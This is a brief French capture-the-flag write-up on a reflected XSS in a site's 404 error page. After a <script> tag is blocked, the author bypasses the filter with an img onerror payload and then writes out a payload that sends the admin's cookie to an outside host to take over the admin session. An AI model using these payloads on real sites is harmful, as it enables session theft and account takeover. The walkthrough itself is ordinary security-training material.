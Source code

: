 En regardant de plus près le site nous observons un forumaire à envoyer à l'admin, on peut donc se douter qu'il peut s'agir d'une XSS.
En allant voir la apge de l'erreur 404 le site nous affiche le nom de la page qui n'existe pas, et si nous mettions du code javascript pour qu'il execute en voulant l'afficher sur la page d'erreur ?
On essaye avec un simple <script>alert()</script> mais le site le détecte.
On essaye alors avec <img src=x onerror="alert()">. BINGO ça marche !!!
C'est partit pour faire une redirection <img src= onerror="document.location'siteweb.com?cookie='+document.cookie">, on encode le tout en URL encode
On attend et le cookie est là, on se connect avec en tant qu'admin et on flag
